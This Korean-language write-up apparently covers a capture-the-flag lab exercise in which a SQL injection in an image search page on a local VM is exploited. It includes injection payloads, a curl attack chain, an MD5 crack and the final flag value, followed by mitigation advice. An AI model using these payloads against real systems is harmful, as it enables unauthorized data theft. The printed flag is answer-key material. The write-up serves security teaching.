





# 취약점 #3: 이미지 검색의 SQL Injection

## 🎯 취약점 유형
**SQL Injection (SQL 삽입 공격) - 이미지 검색 엔진**
- **OWASP 분류**: A03:2021 - Injection
- **CWE 분류**: CWE-89 - SQL 명령어에 사용되는 특수 요소의 부적절한 무력화

---

## 🔍 취약점 발견 과정

### 발견: 이미지 검색 페이지
**URL**: `http://192.168.64.2/index.php?page=searchimg`

이 페이지에서는 이미지 ID를 입력하여 이미지를 검색할 수 있습니다.

### 1단계: 정상 쿼리 테스트
먼저 정상적인 기능을 테스트하기 위해 이미지 ID `1`을 검색했습니다:

**입력**:
```sql
1
```



**출력**:
```
ID: 1
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```

애플리케이션은 이미지 제목과 URL을 반환합니다.

### 2단계: SQL Injection 취약점 테스트
Breach #2와 동일한 기법을 사용하여 SQL Injection을 테스트했습니다:

**입력**:
```sql
1 OR 1=1
```

**서버에서 실행될 것으로 예상되는 SQL 쿼리**:
```sql
SELECT title, url FROM list_images WHERE id = 1 OR 1=1
```



**결과**: 모든 이미지 레코드가 반환되었습니다!

**출력**:
```
ID: 1 OR 1=1
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR 1=1
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR 1=1
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR 1=1
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR 1=1
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

✅ **SQL Injection 취약점 확인!** 이미지 ID 5번 "Hack me ?"가 수상해 보입니다.

**중요한 발견**: 이것은 Breach #2 (회원 검색)와 **완전히 동일한 취약점**입니다!
- 같은 실수가 여러 페이지에 복제되었습니다
- 체계적인 보안 실패를 나타냅니다

### 3단계: 데이터베이스 구조 열거
Breach #2와 동일한 기법을 사용하여 데이터베이스 구조를 열거할 수 있습니다:

**입력**:
```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

**발견된 `list_images` 테이블의 컬럼들**:
- `id` - 이미지 ID
- `url` - 이미지 URL
- `title` - 이미지 제목
- `comment` - 이미지 코멘트 (메타데이터)

### 4단계: 숨겨진 Comment 추출
이미지 ID 5번의 제목이 "Hack me ?"인 것을 보고, `comment` 필드에 숨겨진 정보가 있을 것으로 추측했습니다:

**입력**:
```sql
5 UNION SELECT title, comment FROM list_images WHERE id=5
```



**결과**:
```
Title: Hack me ?
Url : borntosec.ddns.net/images.png

Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

**comment에서 발견된 지시사항**:
1. MD5 해시 복호화: `1928e8083cf461a51303633093573c46`
2. 소문자로 변환
3. SHA256 해싱 적용

**문제점**: 민감한 플래그 지시사항이 공개적으로 접근 가능한 데이터베이스 필드에 저장되어 있습니다!

### 5단계: MD5 해시 크랙
[CrackStation.net](https://crackstation.net/)을 사용:



**해시**: `1928e8083cf461a51303633093573c46`
**평문**: `Albatroz`

### 6단계: Flag 생성
지시사항을 따라:

1. **Decrypt**: `1928e8083cf461a51303633093573c46` → `Albatroz`
2. **Lowercase**: `Albatroz` → `albatroz`
3. **SHA256 해시**:

```bash
echo -n "albatroz" | shasum -a 256
```



**결과**: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

✅ **Flag 획득!**

---

## 💥 공격 방법 (재현)

### 완전한 공격 체인

```bash
# 1. SQL Injection 취약점 테스트
curl "http://192.168.64.2/index.php?page=searchimg&id=1+OR+1%3D1&Submit=Submit"

# 2. 데이터베이스 구조 열거
curl "http://192.168.64.2/index.php?page=searchimg&id=1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit"

# 3. CONCAT을 사용하여 모든 이미지의 모든 컬럼 추출
curl "http://192.168.64.2/index.php?page=searchimg&id=-1+UNION+SELECT+1%2C+CONCAT(id%2C+url%2C+title%2C+comment)+FROM+list_images&Submit=Submit"

# 4. 이미지 5의 특정 comment 추출
curl "http://192.168.64.2/index.php?page=searchimg&id=5+UNION+SELECT+title%2C+comment+FROM+list_images+WHERE+id%3D5&Submit=Submit"

# 5. MD5 해시 크랙
# https://crackstation.net/ 방문
# 입력: 1928e8083cf461a51303633093573c46
# 출력: Albatroz

# 6. SHA256 Flag 생성
echo -n "albatroz" | shasum -a 256
# 출력: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

### 대안: CONCAT으로 모든 데이터 한번에 추출

```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

이렇게 하면 모든 컬럼이 하나의 출력 필드로 연결되어 숨겨진 모든 데이터가 한 번에 노출됩니다.

---

## 🛡️ 보안 문제 분석

### 1️⃣ 입력 검증 없음 (Breach #2와 동일)

**문제점**: 사용자 입력이 검증 없이 SQL 쿼리에 직접 삽입됩니다.

**취약한 코드 예시** (PHP):
```php
$id = $_GET['id'];
$query = "SELECT title, url FROM list_images WHERE id = $id";
$result = mysqli_query($conn, $query);
```

이것은 **Breach #2와 완전히 동일한 실수**입니다!

### 2️⃣ 데이터베이스 Comment에 민감 데이터 저장

**문제점**: 플래그 지시사항과 MD5 해시가 공개적으로 접근 가능한 `comment` 필드에 저장되어 있습니다.

**왜 위험한가**:
- Comment는 표시 목적이어야 하며, 민감 데이터 저장용이 아닙니다
- 모든 SQL Injection이 이 데이터에 즉시 접근할 수 있습니다
- Comment 필드에 암호화나 접근 제어가 없습니다

**나쁜 사례**:
```sql
INSERT INTO list_images (id, title, url, comment)
VALUES (5, 'Hack me ?', 'borntosec.ddns.net/images.png',
'If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46');
```

**왜 이렇게 했을까?**
- 개발자가 "숨겨진" 것으로 생각했을 수 있습니다
- 하지만 SQL Injection이 있으면 모든 컬럼이 노출됩니다
- **Security by Obscurity는 보안이 아닙니다!**

### 3️⃣ 회원 페이지와 동일한 취약점 패턴

**문제점**: Breach #2와 **정확히 동일한 SQL Injection 취약점**이 다른 페이지에도 있습니다.

**왜 중요한가**:
- 애플리케이션 전체에 걸친 **체계적인 보안 실패**를 보여줍니다
- 개발자가 취약한 코드를 여러 페이지에 복사했습니다
- 안전한 코딩 관행과 코드 리뷰의 부재를 나타냅니다

**코드 복제의 위험**:
```php
// members.php - 취약한 코드
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = $id";

// searchimg.php - 같은 취약한 코드를 복사!
$id = $_GET['id'];
$query = "SELECT * FROM list_images WHERE id = $id";

// ❌ 한 번의 실수가 여러 곳에 복제됨!
```

### 4️⃣ 열거를 통한 정보 노출

**문제점**: 공격자가 모든 이미지와 메타데이터를 열거할 수 있습니다:
- 이미지 ID들
- URL들 (내부 인프라 노출 가능)
- 제목과 코멘트 (민감 정보 포함 가능)

**잠재적 영향**:
```sql
-- 모든 이미지 URL 노출
1 OR 1=1

-- 내부 서버 정보 유출 가능
-- URL: borntosec.ddns.net (내부 도메인)
-- 공격자가 인프라를 매핑할 수 있음
```

---

## 🔧 해결 방법 (Mitigation)

### 1️⃣ Prepared Statements 사용 (필수!)

**✅ 안전한 코드** (PHP with PDO):
```php
$id = $_GET['id'];
$stmt = $pdo->prepare("SELECT title, url FROM list_images WHERE id = ?");
$stmt->execute([$id]);
$result = $stmt->fetchAll();
```

**✅ 안전한 코드** (Node.js with MySQL):
```javascript
const id = req.query.id;
connection.query(
  'SELECT title, url FROM list_images WHERE id = ?',
  [id],
  function(err, rows, fields) {
    // 결과 처리
  }
);
```

### 2️⃣ 공개적으로 접근 가능한 필드에 민감 데이터 저장 금지

**❌ 나쁨**:
```sql
-- comment 필드에 민감한 지시사항 저장
INSERT INTO list_images (title, comment)
VALUES ('Hack me ?', '비밀 플래그 지시사항: ...');
```

**✅ 좋음**:
```sql
-- 민감 데이터용 별도의 제한된 테이블 사용
CREATE TABLE admin_notes (
  id INT,
  note TEXT,
  access_level ENUM('admin', 'developer') DEFAULT 'admin',
  created_at TIMESTAMP
);

-- 엄격한 접근 제어 적용
GRANT SELECT ON myapp.list_images TO 'webapp'@'localhost';
REVOKE ALL ON myapp.admin_notes FROM 'webapp'@'localhost';

-- 관리자만 접근 가능
GRANT SELECT ON myapp.admin_notes TO 'admin_user'@'localhost';
```

**더 나은 접근 방법**:
```sql
-- comment는 사용자에게 보여줄 내용만
UPDATE list_images
SET comment = '재미있는 이미지입니다'
WHERE id = 5;

-- 민감한 내용은 완전히 다른 시스템에
-- (예: 환경 변수, 별도의 secrets 관리 시스템)
```

### 3️⃣ 입력 검증

**타입 검증**:
```php
$id = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);
if ($id === false || $id < 1) {
    http_response_code(400);
    die("유효하지 않은 이미지 ID입니다");
}
```

**화이트리스트 검증**:
```php
// 숫자 ID만 허용
if (!preg_match('/^[0-9]+$/', $_GET['id'])) {
    http_response_code(400);
    die("유효하지 않은 입력입니다");
}
```

### 4️⃣ 코드 재사용 모범 사례 구현

**문제**: 취약한 코드가 여러 페이지에 복사되었습니다.

**해결책**: 안전하고 재사용 가능한 데이터베이스 쿼리 함수 생성:

```php
// secure_db_helper.php
class SecureDB {
    private $pdo;

    public function __construct($pdo) {
        $this->pdo = $pdo;
    }

    public function getImageById($id) {
        // 검증
        $id = filter_var($id, FILTER_VALIDATE_INT);
        if ($id === false || $id < 1) {
            throw new InvalidArgumentException("유효하지 않은 ID");
        }

        // Prepared Statement
        $stmt = $this->pdo->prepare(
            "SELECT title, url FROM list_images WHERE id = ?"
        );
        $stmt->execute([$id]);

        return $stmt->fetch();
    }

    public function getMemberById($id) {
        // 같은 안전한 패턴 재사용
        $id = filter_var($id, FILTER_VALIDATE_INT);
        if ($id === false || $id < 1) {
            throw new InvalidArgumentException("유효하지 않은 ID");
        }

        $stmt = $this->pdo->prepare(
            "SELECT first_name, surname FROM users WHERE id = ?"
        );
        $stmt->execute([$id]);

        return $stmt->fetch();
    }
}

// 여러 페이지에서 사용
// searchimg.php
$db = new SecureDB($pdo);
$image = $db->getImageById($_GET['id']);

// member.php
$db = new SecureDB($pdo);
$member = $db->getMemberById($_GET['id']);
```

**장점**:
- ✅ 보안 수정이 모든 페이지에 자동 적용
- ✅ 일관된 검증과 에러 처리
- ✅ 유지보수와 감사가 쉬움
- ✅ 단일 보안 강제 지점
- ✅ DRY (Don't Repeat Yourself) 원칙

### 5️⃣ 최소 권한 원칙

**데이터베이스 권한**:
```sql
-- 이미지 검색용 제한된 사용자 생성
CREATE USER 'image_search'@'localhost' IDENTIFIED BY 'strong_password';

-- list_images에 대한 SELECT만 허용
GRANT SELECT (id, title, url) ON myapp.list_images TO 'image_search'@'localhost';

-- comment 컬럼에 대한 접근 명시적으로 거부
-- (또는 애초에 권한을 주지 않음)

FLUSH PRIVILEGES;
```

**왜 도움이 되는가**:
- SQL Injection이 발생하더라도 공격자가 `comment` 필드에 접근할 수 없습니다
- 성공적인 공격으로부터의 피해를 제한합니다
- 다층 방어 전략

**테스트**:
```sql
-- image_search 사용자로 로그인 후
SELECT comment FROM list_images WHERE id = 5;
-- ERROR: SELECT command denied to user 'image_search'@'localhost' for column 'comment'
```

### 6️⃣ Content Security Policy (CSP)

**데이터 유출 방지**:
```apache
# Apache 설정
Header set Content-Security-Policy "default-src 'self'; script-src 'self'"
```

데이터를 보낼 수 있는 곳을 제한하여, 공격자가 훔친 데이터를 유출하기 어렵게 만듭니다.

### 7️⃣ Rate Limiting

**자동화된 SQL Injection 공격 방지**:
```nginx
# Nginx 설정
limit_req_zone $binary_remote_addr zone=searchimg:10m rate=10r/m;

location /index.php {
    if ($arg_page = "searchimg") {
        limit_req zone=searchimg burst=5 nodelay;
    }
}
```

---

## 📊 영향 평가

### CVSS 3.1 점수: 9.8 (치명적)

**공격 벡터 (AV)**: Network - 네트워크를 통해 원격 공격 가능
**공격 복잡도 (AC)**: Low - 매우 쉽게 공격 가능
**필요 권한 (PR)**: None - 인증 불필요
**사용자 상호작용 (UI)**: None - 자동화 가능
**범위 (S)**: Changed - 시스템 범위 넘어 확장
**기밀성 (C)**: High - 모든 데이터 노출
**무결성 (I)**: High - 데이터 변조 가능
**가용성 (A)**: High - 시스템 파괴 가능

### Breach #2와 비교

| 측면 | 회원 검색 (Breach #2) | 이미지 검색 (Breach #3) |
|------|----------------------|----------------------|
| **취약점** | SQL Injection | SQL Injection |
| **영향받는 테이블** | `users` | `list_images` |
| **노출된 데이터** | 사용자 인증 정보 | 이미지 메타데이터 + 숨겨진 지시사항 |
| **심각도** | Critical | Critical |
| **근본 원인** | 입력 검증 없음 | **동일한 취약점 복제** |

**핵심 통찰**: 이것은 **체계적인 문제**이며, 단순한 단발성 사건이 아닙니다. 동일한 취약한 코드 패턴이 애플리케이션 전체에 복제되었습니다.

---

## 🎓 배운 교훈

### 1. 잘못된 코드 재사용
**문제**: 취약한 코드가 보안 검토 없이 여러 페이지에 복사되었습니다.

**해결책**:
- 안전한 헬퍼 함수/라이브러리 사용
- 필수 코드 리뷰 구현
- 정적 분석 도구로 SQL Injection 탐지
- 보안 코딩 표준 확립

**예시**:
```
❌ 나쁨: 코드 복사-붙여넣기
members.php → 취약한 쿼리
searchimg.php → 같은 취약한 쿼리 복사

✅ 좋음: 안전한 라이브러리 사용
SecureDB::getById() → 모든 페이지에서 사용
```

### 2. 데이터 분류 실패
**문제**: 민감한 플래그 지시사항이 공개적으로 접근 가능한 데이터베이스 필드에 저장되었습니다.

**해결책**:
- 민감도에 따라 데이터 분류 (공개, 내부, 기밀, 비밀)
- 민감 데이터를 별도의 제한된 테이블에 저장
- 적절한 접근 제어 적용

**데이터 분류 예시**:
```
🟢 Public (공개): 이미지 제목, URL
🟡 Internal (내부): 업로드 날짜, 조회수
🟠 Confidential (기밀): 관리자 노트
🔴 Secret (비밀): 플래그, API 키
```

### 3. 다층 방어 부족
**문제**: SQL Injection이 발생했을 때 2차 보안 조치가 없습니다.

**해결책**:
- 데이터베이스 사용자 권한 (최소 권한)
- 웹 애플리케이션 방화벽 (WAF)
- 침입 탐지 시스템 (IDS)
- 정기적인 보안 감사

**다층 방어 예시**:
```
계층 1: Prepared Statements (1차 방어)
계층 2: 입력 검증 (2차 방어)
계층 3: 데이터베이스 권한 제한 (3차 방어)
계층 4: WAF (4차 방어)
계층 5: IDS/모니터링 (탐지)
```

### 4. Security by Obscurity의 실패
**문제**: 개발자가 comment 필드가 "숨겨져 있다"고 생각했을 수 있습니다.

**교훈**:
- **Security by Obscurity는 보안이 아닙니다**
- 숨기기 ≠ 보호하기
- 모든 데이터가 잠재적으로 노출될 수 있다고 가정해야 합니다

---

## 📚 참고 자료

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Principle of Least Privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege)

---

## 🛠️ 사용된 도구

- **Browser**: 수동 테스트
- **curl**: 커맨드라인 테스트
- **CrackStation**: MD5 해시 크랙
- **shasum**: SHA256 해시 생성

---

**Flag**: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---
**발견 일시**: 2025년 11월 3일
**심각도**: CRITICAL (치명적)
**재현 난이도**: 매우 쉬움
**CVSS 점수**: 9.8/10
**관계**: Breach #2의 동일 취약점 복제본
